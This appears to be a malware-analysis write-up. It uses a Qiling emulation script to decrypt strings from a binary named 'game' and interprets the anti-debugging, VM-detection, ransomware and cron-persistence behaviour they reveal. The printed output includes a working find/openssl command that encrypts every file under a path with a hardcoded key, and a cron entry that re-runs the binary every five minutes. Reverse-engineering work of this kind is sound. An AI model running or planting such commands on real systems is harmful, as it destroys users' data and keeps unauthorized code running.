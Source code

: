 ```Python
    ql.hook_address(detect_vm_decrypt_hook2, ADDR_BN(0x00005d9b))                  # detect_vm()
    ql.hook_address(ramsomware_decrypt_hook, ADDR_BN(0x00006161))                  # ramsomware()
    ql.hook_address(install_program_to_crontab_decrypt_hook1, ADDR_BN(0x000064db)) # install_program_to_crontab()
    ql.hook_address(install_program_to_crontab_decrypt_hook2, ADDR_BN(0x000065c2)) # install_program_to_crontab()
    ql.hook_address(install_program_to_crontab_decrypt_hook3, ADDR_BN(0x0000666d)) # install_program_to_crontab()
    ql.hook_address(install_program_to_crontab_decrypt_hook4, ADDR_BN(0x000066ba)) # install_program_to_crontab()
    ql.hook_address(main_hook1, ADDR_BN(0x000067f0))                               # main()
    ql.hook_address(main_hook2, ADDR_BN(0x0000684a))                               # main()

    # start the chain of decrypt calls
    ql.run(begin=ADDR_BN(0x00005ea2))

if __name__ == '__main__':
    sandbox(['./game'], 'rootfs')
```
- The result of the following script is:
 ```
Decrypted string in detect_debugger(): /proc/self/status
Decrypted string in detect_qiling(): /proc/self/maps
Decrypted string in detect_qiling(): 1),).'
Decrypted string in detect_vm(): /proc/cpuinfo
Decrypted string in detect_vm(): hypervisor
Decrypted string in ramsomware(): find %s -type f -exec sh -c 'openssl enc -aes-256-cbc -salt -in {} -out {}.enc -k KdsDXMIAYpQvFbm' \;
Decrypted string in install_program_to_crontab(): %s/.note
Decrypted string in install_program_to_crontab(): crontab -l
Decrypted string in install_program_to_crontab(): crontab -e
Decrypted string in install_program_to_crontab(): */5 * * * * chmod ug+x %s && %s\n
Decrypted string in main(): *.7#.%,'") +oec`t1gt?m62k9<=<8mCN
Decrypted string in main(): https://play.js13kgames.com/ninja-vs-evilcorp/
 ```
 - By analyzing the result of the script execution we gathered the following information:
	- **Anti-Debugging and Anti-Emulation Techniques** 
		- The first several decrypted strings provide clear evidence of environment-aware behavior, like strings such as `/proc/self/status`, `/proc/self/maps`, and `/proc/cpuinfo` indicate that the binary inspects its execution environment using Linux’s virtual file system. These paths are typically parsed by malware to detect whether it is being debugged or executed in a sandbox or virtual machine. 
		- The presence of the string `hypervisor`, in particular, is a known tactic for detecting virtualization platforms like VirtualBox or VMware, which would suggest execution in a controlled analysis environment. 
		- Anomalous outputs like `1),).'` may represent obfuscated checks or malformed decoding results, although we are not sure of its exact meaning.
	- **Ransomware Functionality**
		- A key decrypted string confirms that the malware behaves as ransomware ``find %s -type f -exec sh -c 'openssl enc -aes-256-cbc -salt -in {} -out {}.enc -k KdsDXMIAYpQvFbm' \;``
			- This command recursively searches the file system and encrypts each file using OpenSSL's AES-256-CBC encryption mode with the use hardcoded key `KdsDXMIAYpQvFbm`.
			- The encrypted files are renamed with a `.enc` suffix, consistent with typical ransomware behavior.
	- **Persistence Mechanism via Cron**
		- Following the encryption step, the malware attempts to establish persistence. 
		- The decrypted strings related to the `install_program_to_crontab()` function indicate that the binary manipulates the user's crontab:
			- It first retrieves and edits the crontab entries (`crontab -l`, `crontab -e`).
			- Then it adds a scheduled job with the command `*/5 * * * * chmod ug+x %s && %s\n`, this cron job ensures that the malware script remains executable and continues to run every 5 minutes, reinforcing its foothold on the system.
		- The reference to a `.note` file path (`%s/.note`) may indicate that the malware leaves behind a marker or ransom note.